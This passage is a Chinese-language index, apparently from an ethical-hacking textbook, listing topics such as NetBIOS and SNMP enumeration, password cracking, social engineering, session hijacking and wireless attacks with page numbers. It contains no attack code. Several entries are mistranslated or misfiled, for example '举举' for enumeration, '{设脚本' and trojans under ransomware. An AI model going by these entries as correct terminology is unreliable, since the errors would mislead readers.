  - 触点 217
  - 向量 217
- 移动间谍软件 228, 229

## IoT

- 数据边缘 244
- 边缘计算 244
- 网关 244
- 物 244
- IIoT 攻击向量 248, 246
- IoT 通信 244
  - 设备到云 244
  - 设备到设备 244
  - 设备到网关 244
  - 第三方数据共享 244
- IoT 网络 245
  - 信息泄露 245
  - 标准化 245

## N

- Nbtstat
  - `Nbtstat -c interface` 95
  - `Nbtstat interface` 95
- NetBIOS 枚举
  - 数据报服务 91
  - 命名服务 91
  - 会话服务 91
  - NetBIOS 后缀
- 工具
  - `SuperScan` 92
  - `Netcat` 85
  - `Netdiscover`: 用于网络映射 86
  - `NetScan Pro 接口`: 用于 SMTP 枚举 105
  - `Netsparker` 191
- 网络概念
  - 网络基本输入输出系统 (NetBIOS) 91
- 网络配置
- 网络扫描 50
  - `whois` 查询 50
- 网络接口适配器 (NIC) 75
- 网络级安全
  - API 网关 276
  - 防火墙 273-275
  - 负载均衡器 276
  - 代理服务器 275
- 网络级会话劫持 143, 144
- 网络映射
  - 使用 `Netdiscover` 86
  - 使用 `Zenmap` 86
- 网络映射与拦截工具 250
- 网络端口 42
- 网络协议 42
- 网络扫描 74
- 网络安全工程师 318
- 网络嗅探 145
- 网络时间协议 (NTP)
  - 架构 102
  - NTP 枚举 101, 102
  - NTP 枚举命令：
    - `ntpdc` 102
    - `ntpq` 102
    - `ntptrace` 102
- 其他主题
  - 网络虚拟化 239
  - NIST 云计算参考架构：参与者 240
- 扫描与认证
  - 使用 `Nmap` 79 进行端口扫描 83
  - `NSLookup` DNS 枚举接口 107
- NTLM 认证 129
  - LM 认证协议 130
  - NT-Hash 协议 130
- 空社区主页 325
- 官方培训，EC-Counsil 23
- 一次性密码 261, 262

## O

- 运行环境
  - 物理勘测 49
  - 社交媒体 49
- 操作系统 10
- 操作系统虚拟化 238
- 运营技术 (OT) 246
- 最优合同 6
- `OpUtils` 98
- 正交频分复用 (OFDM) 198
- OSI 模型 75, 76
- OT 攻击向量 248
- OT 网络 246
- 工业自动化 (IA)
  - IA 247
  - 工业控制系统 (ICS) 247
  - 过程控制网络 (PCS) 247

## P

- 渗透测试与密码破解
  - `OWASP-ZAP` 154
  - 被动侦察 43
  - 密码破解 125, 133
    - Kerberos 认证 130, 131
    - NTLM 认证 129, 离线攻击 126, 127
    - 在线攻击 126, 127
    - 使用 `crack` 工具 127
    - 现代系统中的密码存储 127
    - 安全账户管理器 (SAM) 129
    - 社会攻击 126
  - 密码破解清单 133
- PCI DSS 329
- 渗透测试员 16
- 渗透测试 16, 练习 285, 315
  - 过程 17
  - 阶段、获取 16
    - 访问、维持 16
    - 侦察 16
    - 扫描 16
    - 轨迹、清除 16
  - 攻击面识别 17
  - 交付物 18
    - 执行 18
    - 报告 18
    - 计划 18
    - 策略制定 17, 18
  - 目标系统识别 17
- 网络钓鱼 11, 60
- 物理机与虚拟机 238
- `Piconet` 200
- `ping 扫描` 78
- `ping 程序` 78
- `PIPEDA` 331
- 平台即服务 (PaaS) 236
- 端口扫描 81
- 预约定密钥 256
- 预共享密钥 (PSK) 202
- 托词欺骗 63, 64
- 隐私辩论 331
- 私钥加密 255
- 权限提升 133, 134
  - `DLL 劫持` 135
  - 水平权限提升 134
  - 阶梯 134
  - 垂直权限提升 135
- 个人信息保护法 (POPI Act) 331
- 协议数据单元 (PDU) 76
- 代理服务器
  - 匿名代理服务器 275
  - 扭曲代理服务器 275
  - 高匿名性代理服务器 276
  - 透明代理服务器 275
- 公钥密码学 257

## R

- 彩虹表链 132
- 勒索软件与修复
  - `木马` 132, 133
  - `RST 劫持` 146
- `root 化`
  - 移动设备 223

## S

- 安全措施
  - 应用层安全 270
  - 硬件与基础设施安全 276, 277
  - 网络级安全 273
  - 人员安全 277
  - 服务器级安全 273
- 规避
  - 规避 280
- 安全专业人员，选项
  - 赏金猎人 319
  - 网络取证调查员 319
  - 网络安全审计员 319
  - 伦理黑客 318
  - IT 安全分析师 318
  - 网络安全工程师 318
- 安全风险评估矩阵 116
- 自我评估 333-393
- 传感器 244
- 服务器虚拟化 239
- 服务发现 81
- 服务集标识符 (SSID) 201
- 会话 142
- 会话攻击 12
- 会话固定攻击 153
- 会话劫持 143
  - 应对措施 154
- 会话重放攻击 151
- 窥视窃 66
- 侧信道攻击 263
- 简单邮件传输协议 (SMTP) 103
- 简单网络管理协议 (SNMP) 97
- 钓鱼短信 61
- SMTP 命令
  - `AUTH` 103
  - `DATA` 103
  - `EHLO` 103
  - `EXPN` 104
  - `HELO` 103
  - `MAIL FROM` 103
  - `QUIT` 104
  - `RCPT TO` 103
  - `RSET` 103
  - `SIZE` 103
  - `TURN` 103
  - `VRFY` 103
- `SMTP 举举` 103
  - `NetScan, 使用` 105
  - `Telnet, 使用` 104
- `嗅探攻击` 151
- `SNMP 举举` 97
- `SNMP 环境` 98
  - `MIB` 97
  - `网络节点` 97
  - `SNMP 代理` 97
  - `SNMP 管理器` 97
  - `SNMP 栈` 98
- `社会工程` 55
  - `bookie 故事` 56, 57, 58
  - `社会工程攻击` 59
- 社会工程学应对措施
  - `意识与注意力` 69
  - `终端用户培训` 71
  - `软件应对措施` 70
- `社会工程学方法` 58
  - `通信与信任建立` 59
  - `意图执行` 59
  - `意图表达` 59
  - `范围定义` 58, 59
  - `目标选择` 59
- 社会工程学技术
  - `应用程序重包装` 66
  - `诱饵` 64
  - `窃听` 65
  - `身份盗窃` 65
  - `钓鱼` 60
  - `{设脚本` 63, 64
  - `恐吓软件` 62
  - `窥视窃` 66
  - `钓鱼短信` 61
  - `鱼叉式钓鱼` 62
  - `语音钓鱼` 60
  - `水坑式攻击` 63
  - `网页钓鱼` 61, 62
- 社会工程学工具
  - `主叫 ID 伪造` 68
  - `一次性（垃圾）手机` 67
  - `一次性邮件器` 68
  - `一次性号码` 67
  - `硬件设备` 68
  - `即时通讯应用` 66
  - `社交媒体` 66, 67
  - `软件` 68
- `社交媒体` 66
  - `社交媒体攻击` 67
  - `软件` 68
- `主动` 69
- `被动` 68
- `软件即服务 (SaaS)` 236
- `软件专业` 323, 324
- `鱼叉式钓鱼` 62
- `起始权威 (SOA)` 43
- `STARTTLS 认证` 104
- `隐写术` 260
- `存储虚拟化` 239
- `流算法` 256
- SuperScan
  - `SuperScan 主机与服务发现` 93
  - `SuperScan 主机扫描` 93
  - `SuperScan 端口扫描` 92
  - `SuperScan 标签` 94
  - `SuperScan Windows 举举` 94
- `数据控制与数据采集 (SCADA) 系统` 247
- 对称密钥算法
  - `AES` 257
  - `分组算法` 256
  - `Blowfish` 257
  - `DES` 257
  - `RC4` 257
  - `流算法` 256
- `对称密钥加密` 255
- `系统破解` 123
  - `流` 125
  - `阶段` 124
- `系统加固` 12
- TCP 标志
  - `ACK (确认)` 77
  - `FIN (结束)` 77
  - `PSH (推)` 77
  - `RST (重置)` 77
  - `SYN (同步)` 77
  - `URG (紧急)` 77
- `TCP 头部` 145
- `TCP/IP 栈` 76
- `TCP 扫描` 82
- `TCP 会话` 142
- `TCP 会话劫持` 144
- 技术栈
  - `API 请求/响应头` 45, 46
  - `网页和 API 上的错误信息` 46, 47
  - `员工的论坛帖子` 45
  - `职位列表` 44
  - `产品实现白皮书` 48
  - `RPs (征报价文件)` 45
  - `技术博客` 45
- `Telnet` 84
  - 用于横幅抓取 84
  - 用于端口扫描 83
  - 用于 SMTP 举举 104
- `临时密钥完整性协议 (TKIP)` 202
- `第三方数据共享` 236
- `威胁模型` 278
  - `IoT 网络` 245
- 威胁，Web 服务器
  - `目录遍历` 161
  - `拒绝服务攻击 (DoS)` 160
  - `HTTP 注入` 162, 165
  - `配置错误攻击` 161
- `票据授予服务 (TGS)` 131
- `时序攻击` 263

## T

- 垂直权限提升 135

## V

- 虚拟化
  - 虚拟化 237, 238
  - 硬件虚拟化 238
  - 网络虚拟化 239
  - 操作系统虚拟化 238
  - 服务器虚拟化 239
  - 存储虚拟化 239
- 语音诈骗 (Vishing)
  - 语音诈骗 60
  - 语音网络钓鱼 60
- 漏洞
  - 漏洞 111
  - 漏洞评估 112
    - 访问策略 113
    - 应用 112
    - 数据存储与归档 113
    - 网络与 IT 基础设施 112
    - 初步评估 114
    - 流程 113
    - 流程概述 112
    - 修复 117
    - 报告生成 115
    - 风险评估 116
    - 系统基准定义 114
    - 系统漏洞扫描 115

## W

- 汽车漫游 207
- 水坑攻击 63
- Web 应用程序
  - Web 应用 176
    - 优势 176
    - 架构 177, 178
  - Web 应用攻击 178
    - 注入攻击 181
    - 语言与框架 179
    - 配置错误攻击 180
    - 操作系统 180
    - 服务器型号与构建 179
  - 工具 190
  - Web 服务架构 180
- Web 攻击
  - Web 攻击 12
  - Web 爬虫 50
  - Web 钓鱼 61, 62
- Web 服务器 158
  - 组件 158
  - 交互 159, 160
  - 目的 160
- Web 服务器攻击
  - 工具 167
  - Web 服务器攻击方法论
    - 身份认证破解 188, 189
    - 遍历与密码破解 189, 190
    - XML 投毒 189
- Web 会话 143
- 网站篡改 166
- Web 观察者 51, 52
- 白帽
  - 白帽人员 15
- Whois DNS 遍历接口 108
- Wi-Fi 保护访问 (WPA) 202
- Winfingerprint 接口 97
- 有线等效隐私 (WEP) 201
- 无线适配器 206
- 无线攻击方法
  - 无线网络发现 205, 206
  - 无线网络分析 207
  - 无线网络映射 207, 208
  - 无线蜜阱 212
    - 免费蜜阱 213
- 无线网络 196
  - 灵活性 196
  - 安装 196
  - 移动性 196
  - 可扩展性 196
- 无线网络攻击
  - 去认证攻击 209
  - 中间攻击 (MITM) 211
  - WPA 握手捕获 210
- 无线网络挑战
  - 覆盖范围 197
  - 配置错误 197
  - 数据包捕获 197
  - 伪造 198
- 无线网络发现
  - 主动扫描 205
  - 被动扫描 205
- 无线标准
  - 802.11a 198
  - 802.11b 198
  - 802.11g 198
  - 802.16 (WiMAX) 199
  - 比较 205
  - IEEE 802.11ac (Wi-Fi) 198
- 员工与客户
  - 博客 48
  - 在线人员搜索 48
  - 社交媒体 48
- WPA2
  - WPA2 202
  - 模式 202, 203
- WPA3
  - WPA3 203, 204
  - WPA 握手捕获 210
- WPScan
  - WPScan 192

## Z

- Zed 攻击代理 (ZAP) 169
- Zenmap 80
  - 用于网络映射 86
  - 用于端口扫描 83
